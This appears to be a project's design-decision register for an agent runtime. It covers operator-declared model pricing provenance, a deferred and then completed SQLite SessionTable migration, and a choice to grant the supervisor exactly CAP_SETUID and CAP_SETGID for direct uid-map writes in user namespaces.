[`tasks.md`](../002-spec-aware-agent-runtime/tasks.md) **T210** had recorded as *closed by
construction* eight days earlier: **may a price enter `src/runtime/providers/costs.py` from anywhere
but a vendor's page?** T210's determination — *"Operator-supplied prices are not admitted by T062's
design and were not added"* — was **correct about the design and is now overtaken by a consequence of
the design landing.** It is struck in place there rather than deleted, because a task still stating
that the path does not exist would be a live instruction to remove it.

**What forced it, and the ordering matters.** T062 recorded OpenAI as unpriced on 2026-08-05 and
nothing broke, because the table was wired to nothing. **T210 wired it** the same day. From that
commit an OpenAI session fails closed on spend and **cannot run at all** — which is T063 working
exactly as specified, and is also a product with a provider it cannot serve. The decision is between
serving that provider on an operator's own accountability and not serving it; it is **not** between
being careful and being careless, and it must not be read as a relaxation of T063.

**The decision, in four limbs. Each is a separate commitment and three of them are refusals.**

**① A declaration is admitted, and it is a second *provenance* rather than a second row in the
table.** `OperatorPrice` is its own type beside `PriceEntry`, sharing the band arithmetic and nothing
else. **It is deliberately not a flag on the existing type.** A discriminant field is distinguishable
only to a caller that remembers to read it, and the caller that forgets is the one this exists to
catch. Two types are distinguishable at every call site, and `price_usd` returns `PricedSpend` — the
figure *and* its provenance as one value, with no `__float__` — so the number cannot be recorded
without the provenance by an author who wrote nothing down. **What stands where a vendor entry's
`source` and `retrieved` stand is `declared_by`, `declaration_ref` and `declared_on`**: *who says so*
replacing *which page says so*, all three required, and deliberately not shaped like a URL. A field
holding an internal wiki link would make the two provenances look alike in exactly the field that is
supposed to tell them apart.

**② A provider whose published card prices in two context columns with no stated boundary is refused
a single rate.** This is the limb the decision turns on and it is the one that costs something.
`costs.UNPRICED["openai"]` records the reasoning and this entry does not soften it: picking either
column requires inventing the boundary; the cheap column under-charges; and **under-charging is the
direction that makes a ceiling fail to fire**, which is the failure the whole spend-ceiling job exists
to remove. **Admitting one number here would recreate that defect with the operator's name on it, and
that is worse than the present refusal because it looks authorised.** So a declaration for such a
provider must supply what the vendor withheld — both columns and the prompt-token threshold between
them — and `CONTEXT_TIERED_WITHOUT_THRESHOLD` is the enumerated list that makes the rule executable
rather than advisory. Two *identical* bands are refused with it, because one column read twice and a
card genuinely quoting the same figure twice are indistinguishable here and the first produces exactly
the under-charge this limb exists to stop. **A genuinely flat contract rate is therefore refused, and
that is the intended outcome rather than a gap**: a discrepancy between an operator's card and their
vendor's is one to settle with the vendor, not one for this table to resolve by picking a reading.
Refusing costs a startup failure naming the remedy; admitting costs a ceiling that does not fire,
discovered from a bill.

**③ The other two recorded absences land in two different states, and both are stated.** The register
is explicit here because a reader who finds two of three answered will assume the third was
overlooked, so `costs.OPERATOR_REACH` answers all three and a module-load invariant refuses to let
`UNPRICED` grow a fourth key without one.

- **Anthropic's aliases stay refused, and are enumerated in `REFUSED_ADDRESSES` so the refusal
  executes rather than being described.** The absence there is **the address and not the number**, and
  no rate repairs an address: the vendor's own page calls an alias *"a convenience pointer that
  resolves to a dated model ID"*, so a declared rate becomes the rate for whatever it resolves to
  next, with no event this table could observe. Nothing is blocked by the refusal — the dated
  identifier is priced already and is what the request is actually made against.
- **xAI's `cost_in_usd_ticks` scale is out of scope by construction, which is neither reachable nor
  refused**, and the distinction is worth the word. That absence is a missing **unit scale**; this
  path declares USD per million tokens. There is nothing an operator could type that would engage it,
  so there is nothing to refuse, and xAI's per-token rates are sourced already. **A tick scale is owed
  a source, not a declaration.**

**④ Absence fails at startup, and a declared zero is a declaration rather than an absence.**
`MODEL_PRICES_OPERATOR` is required configuration with **no default**, and the literal `none` is a
value — so *"nobody was asked"* and *"the operator considered it and declares nothing"* are different
states. `require_priceable` is the preflight: it refuses at startup for a model neither the table nor
the book prices, rather than after the money for the first call has been spent. It is also the **only**
thing that catches a declaration written against the wrong address — an operator whose contract prices
*"GPT-5 mini"* and who declares that string as the identifier has built a well-formed book matching no
request this runtime will make, which is the *unpriced while looking configured* state, the worst of
the three. And the line it returns names the rate, which matters most for a declared **zero**: a rate
that disables the spend dimension is a thing to read before a session runs, not to infer afterwards
from a total that never moved.

> #### Where the operator-versus-vendor distinction surfaces, and why not only in the startup log
>
> The obvious place to put this is the startup line, and the startup line **is** written — limb ④.
> It is not sufficient, on a ground this corpus has already recorded twice. **A log is gone with the
> process that wrote it**, and the reader who needs the distinction is the one holding a total months
> later and asking whether it can be checked. That reader is exactly the *claim about the corpus that
> lives in a different file from the thing it describes* family [`tools/README.md`](../../tools/README.md)
> collects, arriving in telemetry instead of in markdown.
>
> So the distinction is carried **on the record**, at all three places a spend figure durably lands:
> `ModelResponse.spend_provenance`, present-or-absent **together** with `spend_usd`; FR-038's
> `model_call` span; and the journal's model-outcome payload, at **schema revision 3**.
>
> **The argument is `b2d124f`'s own, one field over.** That commit carries `model` on the span
> because *a price is not reproducible without the row it came from*. A rate an operator declared has
> **no row in this repository at all**, so a record naming only `(provider, model)` sends a later
> reader to `costs.PRICES` to check a figure that was never in it — and they will conclude the table
> moved rather than that the rate was never there. The two readings are only distinguishable if the
> record says which. A sourced figure and a declared one that look identical is the `0.0` defect
> T210 closed, wearing a different field.
>
> **Revision 2 payloads are read as vendor rather than as unknown, and that is a fact rather than a
> guess.** Revision 2 predates this decision, so `PROVENANCE_VENDOR` was the only provenance a figure
> in one could have had. Revision 1 stays unpriced with its spend `None`, unchanged.

**Why this is the third instance of one pattern and not a loophole in the rule against invented
defaults.** The rule forbids values **this specification invented**, and has never forbidden values an
operator declared. **FR-058** is the precedent in shape — required configuration, no default, loud
startup failure on absence, and a configuration outside what the requirement permits **refused rather
than clamped** — and limb ② is that last clause exactly: a single rate for a context-tiered card is
refused, not silently doubled into two bands. **`ReservationPolicy`** refuses an unset spend or token
figure on the same reasoning. What is added here is a third instance, which is what makes it
consistent rather than an exception argued for one provider.

**What this decision does not license.**
- **Not** a declaration for a model this table already prices. That session already runs, so nothing
  is unblocked, and what is risked is a sourced rate silently displaced by an unsourced one — the
  ambiguity `validate_schedule` already refuses between two vendor rates, arriving from the other
  side. A negotiated rate for a *listed* model is a different question and is **not** decided here.
- **Not** a weakening of T063. A model neither priced nor declared still refuses, and the refusal is
  now reached at startup as well as at the call.
- **Not** a claim that an operator's figure is as good as a vendor's. It is a claim that an
  accountable declaration is better than a session that cannot run, **provided the two can be told
  apart**, which is what limb ① and the record fields buy.
- **Not** progress on **U-30**. [`research/14`](../../research/14-architecture-synthesis.md) §5.1
  records the in-process budget channel as untrusted, and a declared rate on an untrusted channel is
  a declared rate on an untrusted channel. This moves **who is accountable for the number**, not
  whether the channel carrying it can be trusted.

**Authorises** `OperatorPrice`, `OperatorPriceBook`, `PricedSpend`, `CONTEXT_TIERED_WITHOUT_THRESHOLD`,
`REFUSED_ADDRESSES`, `OPERATOR_REACH` and `require_priceable` in
[`src/runtime/providers/costs.py`](../../src/runtime/providers/costs.py); the
`MODEL_PRICES_OPERATOR` runtime key in [`src/contracts/config.py`](../../src/contracts/config.py),
required with no default; `ModelResponse.spend_provenance` in
[`src/runtime/turn.py`](../../src/runtime/turn.py) and its present-or-absent-together rule; and the
model-outcome journal schema's advance to **revision 3** in
[`src/runtime/resume.py`](../../src/runtime/resume.py), with revision 2 read as vendor-provenance.

**Propagated to** [`src/runtime/providers/adapter.py`](../../src/runtime/providers/adapter.py), which
carries the provenance from `price_usd` onto the response rather than flattening it;
[`src/runtime/loop.py`](../../src/runtime/loop.py)'s `model_call` span; and
[`tasks.md`](../002-spec-aware-agent-runtime/tasks.md) **T210**, whose closing paragraph is **struck
in place with a dated note** — it recorded the path as closed by construction and a task still saying
so would be a live instruction to remove what this decision authorises. **The preflight is wired to
no startup path in `src/` yet, and that is stated rather than left to be found**: nothing in `src/`
constructs a `ModelResponse` outside `adapter.py` and `resume.py` either, for the same reason — T210's
seam has no caller in the product yet. `require_priceable` is that seam's startup half and lands in
the same state. Wiring both is one task and it is not this decision's.

### OD-28 — the `SessionTable` → `Repository` migration stays deferred, and the shape is routed to T016's note rather than re-litigated; the deferral expires the moment a supervisor process constructs a session store

> #### ✅ DISCHARGED 2026-08-06 — GROUND ① EXPIRED BY BEING SATISFIED, AND THE MIGRATION IS DONE
>
> **Written at the entry, on the same day, because the failure this entry names is a ground that
> quietly stops applying while only a derived copy is corrected.** OD-24 is the precedent and it is
> cited below in exactly these terms; correcting T016's note and leaving this standing would have been
> that failure with the documents swapped.
>
> **Ground ① is retired.** The owner decided to build a **process entry point for the Python
> runtime** — the T029 seam, recorded at `f167d7e` — which is precisely the artifact the expiry
> condition below names: *a supervisor entry point that opens the session store*. The condition was
> written to be satisfied by an event rather than noticed by an audit, and it was. **The migration was
> then done first, before the entry point exists**, so the hazard was removed rather than made live
> and chased: `SessionTable` now opens `Repository.unscoped(..., role=ROLE_SUPERVISOR)` and issues
> every statement through the layer.
>
> **Ground ② was not waited out and is not claimed to have been.** Phase 3 has not closed. What
> changed is that the ground's own content — *the migration is not mechanical* — was paid rather than
> deferred: the three obstacles finding 033 named were reconciled inside the repository layer
> (`session` declared `scope_per_row` in the ownership map, a `NotEqual` predicate for the
> second-termination guard, the conformance fixture regenerated from the supervisor's own writer and
> read unchanged by the Go arm). The deferral is **discharged by the work being done**, not expired.
>
> **Measured either side rather than read off the diff.** Four processes at an N-party barrier, twelve
> trials of four cold first-opens: **8 of 12 trials produced a loser, 17 losers over 48 opens**
> before; **0 and 0** after. Six of eight calls on the write surface leaked raw
> `sqlite3.OperationalError` under a planted `EXCLUSIVE` holder before; **none** after.
>
> **What this changes below.** The `permitted` entry this entry authorises **no longer exists** — it
> was removed with the migration and the scan is green with nothing suspended. T016's tick is clean
> rather than `PARTIAL`. The *routing* half — a future instance of this shape is recorded rather than
> re-litigated — is spent along with the deferral it routed, and the general rule it protected is
> unchanged and now holds tree-wide. **Nothing is re-sized here and no task is minted**, which this
> entry required of anyone touching it and remains true of closing it.
>
> ---
>
> **✅ CONFIRMED 2026-08-08 BY THE ARTIFACT ARRIVING — the entry point exists, it opens the store,
> and the prediction held.** The discharge above was written against an entry point that had not
> been built; `src/supervisor/main.py` is now that process (**T211**), and it constructs a
> `SessionTable` against `$F2A_STATE_DIR/sessions.db` on every successful startup. **Re-measured
> through the entry point rather than inherited from the migration's own figures**, because the
> claim being checked is about this artifact and the earlier measurement was about `SessionTable`:
> four supervisor entry points meeting a barrier on one cold state directory, twelve trials of four
> cold first-opens — **0 losers over 48 opens**, and the `session` table present in all twelve. That
> reproduces the post-migration reading (0 of 12) against the pre-migration one (8 of 12 trials with
> a loser, 17 losers over 48). **This entry stays discharged and is not reopened**; the paragraph
> exists because a condition satisfied *in advance of* the event it names should be seen to hold when
> the event arrives, and an entry that was never re-read after its trigger fired would be OD-24's
> failure in the one direction this record was built to foreclose. **Nothing is re-sized and the
> minted task carries no estimate.**

**Decided 2026-08-06**, answering the one question
[finding 033](../002-spec-aware-agent-runtime/findings/033-session-table-wal-race-unreachable-and-owed-to-migration.md)
raised for an owner and deliberately declined to answer: **when does
[`src/supervisor/session_table.py`](../../src/supervisor/session_table.py) migrate onto `Repository`?**
The finding measured the defect on both limbs, recommended against a local patch, and minted no number
— on [finding 026](../002-spec-aware-agent-runtime/findings/026-pivot-root-check-measured.md)'s rule
that a number copied into a finding goes stale in the direction that tells the next author to reuse a
taken one. This entry supplies the number and the ruling. **It confirms the finding rather than
correcting it**, which is why the finding's text is untouched.

**What is deferred, stated so nothing is smuggled.** `SessionTable` does not use `Repository`. It calls
`sqlite3.connect` directly and runs `executescript(SCHEMA)` whose **first statement** is
`PRAGMA journal_mode=WAL`, so the concurrent-first-open defect `ff202ae` closed inside
[`Repository._enter_wal`](../../src/contracts/repository.py) does not reach it; and all six of its
write methods plus `__init__` leak raw `sqlite3.OperationalError`, where the repository layer's
callers get the `StoreBusyError` / `StoreWedgedError` / `StoreUnusableError` split. Both were measured
rather than argued, and neither is repaired.

> #### ⚠️ A DEFERRAL IS NOT A DECLINE, AND THE MIGRATION IS NOT WITHDRAWN
>
> **The migration is owed and stays owed. Only its schedule is set, and it is set to *not now*.**
> Nothing below withdraws it, re-opens whether `SessionTable` belongs inside the repository layer, or
> licenses a design that assumes it never will. The exemption that keeps T016's scanner green —
> [`tests/invariants/test_writer_ownership.py`](../../tests/invariants/test_writer_ownership.py)'s
> `permitted` entry, `# predates T016; see below` — is a **deferral recorded in the open**, and its own
> failure message says so in terms: *"it is a **known migration**, recorded here rather than hidden by
> widening the scan."* This entry ratifies that wording; it does not convert it into a carve-out on
> the merits. **OD-24** is the precedent in shape — adopt the model, gate the build — and this is the
> register's second adopt-and-defer entry.

**Two grounds, and they must be kept distinct because the second is durable and the first can expire.**

**① Nothing the migration fixes is reachable today, and the reachability is *by current usage* rather
than by construction.** Re-verified against the tree at `7e874d7` rather than read off the finding:
**nothing in `src/` constructs a `SessionTable` at all.** The only reference in the product is
[`lease.py`](../../src/supervisor/lease.py)'s import of the type for an annotation. Every construction
in the tree is a test or a tool, and each creates the file sequentially before anything else attaches.
The race needs two processes to first-open a **brand-new** store simultaneously — a store already in
WAL is immune, a second open succeeding in 0.28 ms even against an `EXCLUSIVE` holder — so the hazard
is specifically *concurrency on the conversion*, which happens once in a file's life. **Only the proxy
is safe by construction** (`mode=ro` plus `query_only`, doubly enforced in Go, and a read-only open of
a nonexistent file fails outright). Everything else is safe by accident. **This ground is a fact about
the current tree and it is exactly the kind that expires**, which is why the expiry condition below is
the operative half of this entry rather than a footnote to it.

**② Phase 3 is the critical path and the migration is not mechanical**, so the work would be bought at
the expense of the path and would not be a day of it. Finding 033 names three obstacles found by
reading, none of which is an edit: `Repository` prepends `tenant_id` and `deployment_id` to every table
and filters every read by them, while `resolve()` deliberately carries **no** tenant predicate, because
the proxy resolves an opaque handle before it knows whose it is — reconciling that with FR-035's scope
columns is a design question; `session` is not in T017's ownership map; and the schema is a **committed
cross-language conformance vector** the Go proxy reads by column name, so changing it is a two-language
change plus a regenerated fixture. **This ground does not expire by being satisfied.** It is spent when
Phase 3 closes, and that is an observable event rather than a silent one.

**Why a local patch is refused rather than merely not scheduled.** Reproducing `_engine_errors`, the
four `StoreUnavailableError` subclasses and the `_enter_wal` convergence loop inside `SessionTable`
would be roughly **120 lines duplicating a module this file is scheduled to start using**, plus a
removal proof for each new mechanism — all of which the migration then deletes. A patch is therefore
not a cheap down payment on the migration; it is work the migration charges twice for. **That is the
whole of why this is a deferral and not a backlog item somebody could pick up cheaply.**

> #### ⚠️ THE EXPIRY CONDITION, WHICH IS THIS ENTRY'S MOST IMPORTANT CONTENT
>
> **Ground ① is satisfied by the tree staying as it is, and a deferral whose ground can be satisfied
> without anyone noticing is the defect OD-24's re-examination was about.** That entry's ground ② was
> *discharged* — collected and spent, nothing about it wrong — and the register said nothing for a day
> while the derived copy had already been struck. **The failure mode is not a wrong ground; it is a
> ground that quietly stops applying.** So the condition is stated here in a form whose loss is
> checkable rather than left to be noticed:
>
> **Ground ① retires the moment a supervisor process constructs a `SessionTable` against a store that
> may be cold** — that is, the moment any second party can first-open the session store concurrently
> with another. At that instant the race is live, and **nothing in the tree will notice**: no rule,
> test or assertion anywhere says the file must be created before a second writer attaches, and the
> `permitted` entry that suspends T016's third clause is silent about reachability. There is no
> `def main`, no `[project.scripts]` and no `console_scripts` anywhere in Python `src/` today —
> verified at `7e874d7`, the only two `__main__` blocks being `# pragma: no cover` operator utilities
> — and `src/proxy/main.go`, the one real entry point, is the read-only side that cannot be a party to
> this race. **That absence is the only thing holding ground ①.**
>
> **Where the condition already lives, so it travels with whatever falsifies it.** It is held in
> **T016**'s note in [`tasks.md`](../002-spec-aware-agent-runtime/tasks.md), with a pointer from
> **T159** — the four-OCI-images task, which is where a supervisor process first becomes concrete.
> **T159 delivers a supervisor *image* and does not name what runs inside it**, which is precisely the
> gap this condition has to cross, so it is named here: the artifact that retires ground ① is a
> supervisor **entry point** that opens the session store, whether it arrives under T159, under T160's
> compose bundle, or under a task that does not exist yet. **Ground ② retires when Phase 3 closes.**
> **When either retires, this entry is re-read; when both have, the migration is scheduled.**
>
> **Neither retirement is a measurement, and no further probing will move this deferral** — which is
> the useful part. Finding 033 measured everything there is to measure here on one platform, and a
> second platform would change no limb of this decision.

**The routing half, which is the part that changes behaviour.** *Stop working around it.* Three
separate passes have now reached this shape from three directions — the WAL race, the engine-exception
leak, and [T108](../002-spec-aware-agent-runtime/tasks.md)'s lease renewer, whose four live options
include *catch the engine exception here* and *complete T016's migration*, with the fourth being the
one the other three are working around. **A future instance of this shape is routed to T016's note and
recorded there; it is not re-litigated, and it does not mint a task.** The distinction a reader must be
able to make on arrival is between a **decided** deferral with a named expiry condition and an
oversight nobody got to, and T016's note is where that distinction is made — which is why the routing
half lands there rather than here.

**What this decision does not license.**
- **Not** a ruling that the leaked `sqlite3.OperationalError` surface is acceptable in general.
  Obligation 2's scanner exempts `session_table.py` **by name**, and its own failure message calls that
  *a known migration* — a deferral, not a carve-out. The general rule is untouched: engine exceptions
  do not belong above the connection layer, and the recorded route to compliance here is the file
  moving **inside** the layer that already holds the rule, not the rule being copied out to it.
- **Not** a licence to add a second exemption on this precedent. The `permitted` list has three entries
  and each carries its own stated reason; this entry ratifies one of them and says nothing in favour of
  a fourth.
- **Not** a claim that the defect is harmless. It is unreached, which is a different thing, and the
  difference is the entire reason the expiry condition is written down.
- ~~**Not** a resolution of T108. The lease renewer dies permanently on the first exception of any
  kind, and that is wrong whichever layer the table sits behind. The migration would remove one of its
  causes; it does not answer the question T108 puts.~~ **Superseded 2026-08-06 with the discharge
  above, and the original was right about the order.** The migration did not answer T108; it made the
  answer *available*. Two of T108's four blocked routes were the migration's absence — *`continue`
  retries forever* and *`SessionTable` cannot raise them from outside the repository layer* — and both
  fell with it. `_loop` now tolerates `StoreBusyError` up to the budget `LEASE_TTL_MULTIPLE` already
  grants and stops on everything else, which is bounded because a lock that is never released
  exhausts the busy handler and reads as `StoreWedgedError` instead.
- **Not** a re-sizing of anything. No estimate is attached, no band is collapsed, and finding 033 is
  explicit that it does not establish whether the migration is correctly sized.

~~**Authorises** the standing `permitted` entry for
[`src/supervisor/session_table.py`](../../src/supervisor/session_table.py) in
[`tests/invariants/test_writer_ownership.py`](../../tests/invariants/test_writer_ownership.py), and
**T016**'s **PARTIAL** tick — the interface landed and holds, the line's third clause does not hold
tree-wide, and the exemption is what makes the checkbox green. Nothing in code changes and no
requirement text moves.~~ **Spent 2026-08-06 with the discharge above.** Both authorisations are
gone rather than lapsed: the `permitted` entry was deleted and the scan passes without it, and
T016's tick is clean. The paragraph is struck rather than deleted because what it authorised is the
fact the discharge has to be checkable against.

**Propagated to** [`tasks.md`](../002-spec-aware-agent-runtime/tasks.md) at **T016**'s note, which
already held the migration debt and the reachability condition and now records that the deferral is
**decided** rather than outstanding, names this entry, and names the artifact that retires ground ①.
**Finding 033 is annotated with a dated pointer and not otherwise touched** — it is an authority
document, its recommendation is confirmed rather than contradicted, and a finding that measured a
problem should say where the problem was subsequently ruled on. **T159's note is left as it stands**:
it already carries the condition and a pointer to T016, and the naming this entry adds belongs at the
anchor rather than duplicated at the pointer.

### OD-29 — the supervisor **may** hold `CAP_SETUID` and `CAP_SETGID` in the initial user namespace, and writes the uid map **directly** rather than delegating to a `newuidmap` helper; this retires OD-24's replacement second ground and leaves ground ① as the sole reason the build waits

**Decided 2026-08-08**, answering the one question
[finding 028](../002-spec-aware-agent-runtime/findings/028-od24-deferral-re-examination.md) §8 item 4
put to an owner and explicitly declined to answer: **may the supervisor hold capabilities in the
initial user namespace?** The answer is **yes**, and the two capabilities are named exactly:
`CAP_SETUID` and `CAP_SETGID`, held long enough to write the multi-line uid map and no longer.

**This is a decision and not a measurement, which is the whole reason it needed an owner.** Nothing
about a host answers it. It is a statement about what the product is willing to require of an
operator who runs the bundle, and finding 028 §6 says so in terms — *"no host reading answers it."*
**The evidence is in and no further probing of this kind is warranted.** That finding names three
plausible next probes and records each as wasted work: a ninth deployment surface (it adds width to a
reading already settled across eight), the `newuidmap` route under an enforcing AppArmor profile (it
cannot make route 2 lower-authority than route 1, because `map_write()`'s gate is upstream of any
LSM), and the **T205** boot matrix (it prices the 5.14 floor, and this model adds no facility above
it). **A pass that arrives here and reaches for a fourth probe should stop**: the thing that was
missing was authority, not data.

> #### ⚠️ THIS IS ONE DECISION AND NOT TWO, AND A PLAN MAY NOT BOOK PARTIAL PROGRESS ON IT
>
> **Two constraints, mechanically — and no posture binds exactly one, so "yes" retires both in a
> single act.** The AppArmor LSM restriction and the `CAP_SETUID` requirement are genuinely distinct
> subsystems: different errnos, refusing different things, and only the capability constraint exists
> on a host carrying no AppArmor at all. **The count is not in dispute and is not what collapsed.**
> What collapsed is their independence, measured on the `ubuntu-latest` runner by
> [finding 023](../002-spec-aware-agent-runtime/findings/023-user-namespace-privilege-model.md)'s
> 2026-08-05 extension, in both directions:
>
> - **At `CapEff=0` the LSM refuses even the *self*-map**, so the distinct map that `CAP_SETUID`
>   guards is never reached. The capability constraint is unreachable from below.
> - **Holding capabilities in the initial namespace *disables* the LSM as a side effect**, because
>   Ubuntu's hook only transitions a process that lacks `CAP_SYS_ADMIN` there. The LSM constraint is
>   unreachable from above.
>
> **So there is no posture from which a plan can satisfy one and report progress on the other**, and
> the incoherent plan both this register and feature 002's plan already name — *"we hold `CAP_SETUID`,
> the LSM is a separate work item"* — has no state of the world it describes. **OD-24's own correction
> was amended on exactly this point**, and this entry is the decision that correction identified as
> the trigger. It is recorded as **one** decision rather than two so that nothing downstream can tick
> half of it.
>
> **The LSM's disappearance is a cost this decision accepts, not a benefit it obtains, and the
> difference is worth the sentence.** Ubuntu's hook confines the *result* of an unprivileged
> `unshare` — the process comes out labelled `unprivileged_userns (enforce)`. A supervisor holding two
> capability bits is outside that hook, so the namespace it creates is **not** AppArmor-confined.
> That is a real widening, it is the mechanical price of the answer being "yes", and an entry that
> presented it as the LSM constraint being *solved* would be claiming a security property this
> decision gives up.

**The decision, in three limbs. The second is a selection among measured routes and the third is a
refusal.**

**① The supervisor holds `CAP_SETUID` and `CAP_SETGID` in the initial user namespace.** This is what
the product may require of a self-hosted operator, and it is a two-bit grant rather than a posture:
not root, not `--privileged`, and specifically **not** `CAP_SYS_ADMIN`. It is the grant finding 028
measured at arm 5 — `Uid 0`, `CapEff 00000000000000c0`, exactly `CAP_SETGID`+`CAP_SETUID` — writing
`0 100000 1` / `1 100001 65535` and reading it back from the kernel as `multi-line-distinct`.
**OD-24's wording already permitted this**; what was missing was an owner willing to require it, and
that is what is supplied here rather than a new model.

**② The map is written *directly*, by the namespace's own creator. The `newuidmap` route is
available and is not selected.** OD-24 offers delegation to a setuid helper as though it were the
lighter option. It is the heavier one, measured, and limb ③ states why. Route 1 is now established as
the **least-authority** route that delivers a useful namespace, so the 3–4 day row OD-24 sizes as
*"the uid/gid map plumbing and the `CAP_SETUID` decision"* is no longer a choice among three routes —
**this entry settles the design half of that row, and only the design half.**

**③ A supervisor holding *nothing* in the initial user namespace and still entering a useful
namespace is refused, because it does not exist.** After finding 028's arm 1 it has no measured route
on any host in this corpus. The honest alternative was never a zero-authority namespace; it was the
**fallback** — the plain `setuid(65534)` drop with no namespace — and that is what a "no" here would
have selected. This decision declines the fallback, and the fallback is not deleted: it remains
OD-24's named route for an operator who cannot make the grant, closing both of
[finding 021](../002-spec-aware-agent-runtime/findings/021-openat2-audit-gap-and-two-authority-gaps.md)'s
authority gaps and giving up per-session kernel uid isolation and the mount-tree control.

> #### ⚠️ THE COUNTER-INTUITIVE INVERSION, STATED BECAUSE AN IMPLEMENTER WILL GET IT BACKWARDS
>
> **`newuidmap` needs `CAP_SYS_ADMIN` in the bounding set. A direct map write needs only
> `CAP_SETUID`+`CAP_SETGID`.** So "delegate to a setuid helper" is the **highest**-authority of
> OD-24's three routes rather than the lowest, and it is named in that entry for a least-authority
> reason that is measurably backwards.
>
> **Measured as a one-bit delta, checked arithmetically rather than by eye**, on
> `6.12.76-linuxkit`/`aarch64` with no LSM present, so the capability limb is isolated:
>
> | Posture (read from `/proc/self/status` inside the arm, before any `unshare`) | Route | Result |
> |---|---|---|
> | `CapBnd 0` (`--cap-drop=ALL`) | setuid helper | **`EACCES`** — the helper is denied even the *open* |
> | `CapBnd 00000000a80425fb` — Docker's default 14: `CAP_SETUID` present, `CAP_SYS_ADMIN` absent | setuid helper | **`EPERM`** on the write |
> | `CapBnd 00000000a82425fb` — the same set plus **exactly** `CAP_SYS_ADMIN` | setuid helper | **`ok`** |
> | `CapEff 00000000000000c0` — exactly `CAP_SETGID`+`CAP_SETUID` | **direct write** | **`ok`** |
>
> `0xa82425fb − 0xa80425fb = 0x200000 = 1 << 21 = CAP_SYS_ADMIN`, and nothing else about those two
> arms differs, so the attribution is single-variable.
>
> **Why, named to the kernel line, and predicted from source before the arm was run.** `map_write()`
> demands `CAP_SYS_ADMIN` over the **target** namespace, judged against the credentials at *open*
> time (`kernel/user_namespace.c:976`, v6.12, with `ret = -EPERM` set at 968). A namespace's creator
> satisfies that **for free and without holding the bit**, because the owner of a user namespace —
> judged **by euid** — holds every capability in it (`security/commoncap.c:92`, v6.12). The only bit
> the creator still needs is the `CAP_SETUID` that `new_idmap_permitted()` demands for a map naming
> ids other than its own.
>
> **A setuid helper forfeits that shortcut by the very act that makes it privileged**: becoming euid 0
> makes the owner comparison false, so the shortcut misses and the helper must satisfy the
> `CAP_SYS_ADMIN` gate on its own merits. **The helper buys exactly one real thing** — the supervisor
> *process* can run at `CapEff=0` — **and it costs a bounding set carrying `CAP_SYS_ADMIN`, reachable
> by every setuid binary in the image.** Two narrow bits in one process is a better least-authority
> position than that, which is why limb ② selects the direct write. The helper survives as a route for
> a deployment that must hold the supervisor process at `CapEff=0` for some independent reason, and
> **it is not a compromise between routes 1 and 3.**

> #### ⚠️ THIS DOES **NOT** LIFT OD-24'S DEFERRAL, AND THE GROUND IT RETIRES IS NOT GROUND ①
>
> **What expires is OD-24's *replacement second ground*. Ground ① is untouched and is sufficient
> alone, so the deferral survives this decision.** Getting this backwards is the single most likely
> misreading of this entry, so it is stated as a banner rather than a clause. OD-24's own correction
> sets the triggers and they are not interchangeable: **ground ① retires when a requirement asks for
> something mount flags cannot give and per-session kernel uid isolation can** — sessions unable to
> signal or `ptrace` one another, or distinct on-disk ownership — and **nothing in this corpus asks
> that today.** That is a *specification* event and no capability grant is one. What this entry
> settles is the other trigger: *the replacement ground retires when the capability question is
> settled either way.* It is now settled.
>
> **The history of the ground this replaced must not be flattened, because it failed by two routes
> that are different in kind.** OD-24 stated two grounds and said the entry "must state both because
> either alone would be weaker". Ground ②'s **inference limb** — *"Docker's default profile blocking
> `unshare` is not ours to choose"* — was **falsified** by
> [finding 024](../002-spec-aware-agent-runtime/findings/024-deployment-surface-permission-census.md),
> which ran the whole mount sequence at uid 1000 under `--cap-drop=ALL` on a profile that is Docker's
> *own* default with a widening: the operator does choose, and the bundle we author is where the
> choosing happens. Its **operative limb** — *"the schedule waits on the wider reading"* — was
> **discharged**, not falsified: it was a sequencing clause that waited on information, the
> information arrived from both directions, and it was collected and spent with nothing about it
> wrong. **The measured half of ② stands throughout** — the default profile does block the call. A
> falsified premise and a spent one are not the same kind of failure, and an entry that recorded ② as
> simply "gone" would erase the distinction OD-24's correction exists to make.
>
> **So the accounting after this entry is:** ①  live and sufficient; ②a stands as measured; ②b
> falsified; ②'s operative limb discharged; the replacement ground **retired here**. **The 13–20
> engineer-day build therefore waits on a pure value-for-effort judgement on ground ① alone**, which
> is a materially different posture from waiting on an open question — and it is *still waiting*.
> **Nothing here schedules work, mints a task, or re-sizes anything.**

**Why the fallback is declined rather than merely not chosen.** Because what the namespace buys over
the plain drop is real and is stated honestly: **per-session kernel uid isolation instead of the
host's shared `nobody`**, plus the mount-tree control. It is *not* a gap closure — the repairs in
[`src/supervisor/mounts.py`](../../src/supervisor/mounts.py) close finding 021's two authority gaps
by mount flag and mount flags are indifferent to privilege — and this entry does not resurrect that
claim in order to justify a grant. The grant is justified by the isolation alone, and the isolation
alone is not enough to schedule the build, which is exactly why ground ① survives a decision that
answers the capability question in the affirmative.

**What this decision does not license.**
- **Not** a lifting of OD-24's deferral, and **not** a licence to start the 13–20 day build. Ground ①
  is untouched, is sufficient alone, and retires on a requirement rather than on a grant. An
  implementer who reads "yes" as "build it" has inverted the banner above.
- **Not** `CAP_SYS_ADMIN`, and **not** root, `--privileged`, or "whatever the operator finds
  convenient". The grant is **exactly two bits**. `CAP_SYS_ADMIN` is measured as necessary for the
  helper route and is **not** authorised by this entry; finding 024 records in its own terms that
  `--cap-add=SYS_ADMIN` also un-gates `bpf`, `ptrace`, `perf_event_open`, `init_module`,
  `finit_module`, `delete_module` and `open_by_handle_at` in the same stroke, **and still does not
  make `pivot_root` work.**
- **Not** a licence for the `newuidmap` route on a least-authority argument. That argument is
  measurably backwards. The route stays available for an independent reason and any remedy naming it
  **must name `CAP_SYS_ADMIN` in the same breath**, or it prescribes a configuration that does not
  work.
- **Not** a claim about `newuidmap` under an enforcing AppArmor profile. Finding 023 §4's note that
  the helper is itself AppArmor-profiled on Ubuntu is untouched by anything measured here and stays
  open. Every arm behind limb ② ran on a host with **no LSM at all**, which is the right instrument
  for the capability question and the wrong one for that one.
- **Not** a change to the **workload's** privilege model, which is the half of OD-24 that always
  mattered. The workload is still root inside its user namespace and unprivileged outside it, still
  mapped to a dedicated per-session kernel uid range that is not the supervisor's, still in a pid
  namespace of its own with the workload forked after the unshare, and still drops to a second mapped
  uid once the mount tree is built. **`CLONE_NEWPID` remains mandatory** and the `setuid` drop remains
  retained.
- **Not** a relaxation of finding 021's closure or of the landed mount repairs. Every one of them
  survives this decision and none was ever conditional on it.
- **Not** a kernel-floor change. The floor stays **Linux 5.14**, still bound by `cgroup.kill`, still
  **DERIVED and NOT TESTED**.
